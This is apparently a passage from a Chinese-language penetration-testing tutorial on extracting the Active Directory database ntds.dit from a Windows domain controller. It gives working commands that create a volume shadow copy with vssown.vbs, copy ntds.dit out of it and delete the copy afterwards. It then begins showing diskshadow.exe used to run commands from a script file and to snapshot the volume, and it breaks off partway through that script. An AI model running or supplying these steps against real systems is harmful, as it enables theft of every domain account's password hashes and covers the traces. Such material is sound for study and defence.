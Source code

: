     cscript vssown.vbs /create c

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115519.png)

列出当前卷影拷贝

    
    
    cscript vssown.vbs /list

![]()

可以看到id为{F27E8849-8BFD-44E1-B6D7-C851198E971D}，存储位置为\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3

复制ntds.dit

    
    
    copy \\?\GLOBALROO\Device\\HarddiskVolumeShadowCopy3\windows\NTDS\ntds.dit c:\\ntds.dit

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115520.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115521.png)

删除卷影拷贝

    
    
    cscript vssown.vbs /delete {F27E8849-8BFD-44E1-B6D7-C851198E971D}

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115522.png)

## 使用diskshadow导出ndts.dit

可以使用diskshadow.exe来执行命令。

例如，将需要执行的命令“exec c:\windows\system\calc.exe”写入c:\command.txt文件

    
    
    echo exec c:\\windows\\system32\\calc.exe \> command.txt  
      
    type command.txt

使用diskshadow执行txt中的命令

    
    
    diskshadow /s command.txt

![]()

diskshadow也可以用来导出ntds.dit，将如下命令写入一个文件中去执行

    
    
    //设置卷影拷贝    
    set context persistent nowriters  
      
    //添加卷  
      
    add volume c: alias someAlias  
      
    //创建快照  
      
    create  
      